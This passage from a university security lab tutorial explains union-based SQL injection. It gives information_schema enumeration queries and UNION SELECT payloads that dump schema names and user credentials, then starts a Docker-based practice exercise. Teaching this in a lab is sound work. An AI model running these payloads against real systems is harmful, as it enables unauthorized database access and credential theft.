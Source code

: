```sql
-- Dumps the names of databases
SELECT schema_name FROM information_schema.schemata;

-- Dumps the names of tables from a database called 'storedb'
SELECT table_name FROM information_schema.tables WHERE table_schema = 'storedb';

-- Dumps the columns for the table called 'users'
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';
```

To execute these queries for our SQLi attack, we need to craft our `UNION SELECT` to return 4 columns and also show the columns that we want to view.

```
' UNION SELECT 1,schema_name,3,4 FROM information_schema.schemata--
```

**Step 3: Dumping Information from Tables**

Once you have discovered the tables and columns you want to dump, you then just rewrite your `UNION SELECT` payload to dump those columns you want to view.

eg.

```
' UNION SELECT username,password,3,4 FROM users--
```

### 5.1.2 Union-based SQLi Exercise

We will be using `docker compose` for running the servers during this lab. If you do not have `docker compose` installed follow [Docker's documentation](https://docs.docker.com/compose/install/).

To start this exercise, download [docker-compose.sqli\_union.yml](files/lab6/docker-compose-files/docker-compose.sqli\_union.yml).

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.sqli_union.yml
```

{% hint style="info" %}
M1/M2 users: you have to make three changes:\
1\. Line 6 - change the image name to `uwacyber/cits3006:sqli-union-arm64`

2\. Line 16 - change the image name to `arm64v8/mysql:8.0.30`

3\. Line 18 - change the platform to `linux/arm64`
{% endhint %}

You can start the servers using one of the following commands that will automatically pull the images and start the containers.

```
sudo docker-compose -f docker-compose.sqli_union.yml up
```

**Make sure when you are done to delete the Docker containers by running the following command**
